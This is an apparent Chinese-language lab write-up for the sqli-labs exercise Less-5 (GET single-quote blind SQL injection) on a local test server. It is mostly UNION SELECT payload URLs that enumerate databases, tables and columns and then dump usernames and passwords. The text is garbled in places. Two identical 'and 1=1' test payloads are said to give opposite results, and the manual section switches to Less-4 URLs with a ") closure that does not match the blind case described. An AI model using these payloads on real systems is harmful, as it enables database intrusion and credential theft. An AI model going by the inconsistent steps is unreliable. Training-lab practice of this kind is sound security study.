 ## 练习开始


less-5是GET单引号盲注，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

```
和less-1的内容是一样的，不同之处在于php不再会打印sql查询的内容，只回显对或错

测试用的payload
```
' and 1=1 %23 返回正确
' and 1=1 %23 返回错误

```

![](luffy2.png)

![](luffy3.png)

**%23和--+等价**



## 手工注入

###判断列数

`
http://127.0.0.1/Less-4/?id=1") order by 3 %23
`
![](luffy2.png)

### 判断当前数据库数量

`
http://127.0.0.1/Less-4/?id=-1") union select 1,count(*),3 from information_schema.schemata %23
`
![](luffy4.png)

判断第一个数据库
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,schema_name,3 from information_schema.schemata limit 0,1 %23
`
![](luffy5.png)
通过修改limit之后的第一个参数逐步遍历数据库

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,schema_name,3 from information_schema.schemata limit 1,1 %23
`

### 检查security数据库的表

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,count(*),3 from information_schema.tables where table_schema='security' %23
`
![](luffy6.png)

通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1  %23
`
![](luffy7.png)


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,count(*),3 from information_schema.columns where table_schema='security' and table_name="users" %23
`
![](luffy8.png)

检查列的内容
`
http://127.0.0.1/Less-4/?id=-1")  union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name="users"  limit 0,1 %23
`
![](luffy9.png)


### 爆出数据

`
http://127.0.0.1/Less-4/?id=-1")  union select 1,concat_ws(":",username,password),3 from users %23
`

![](luffy10.png)






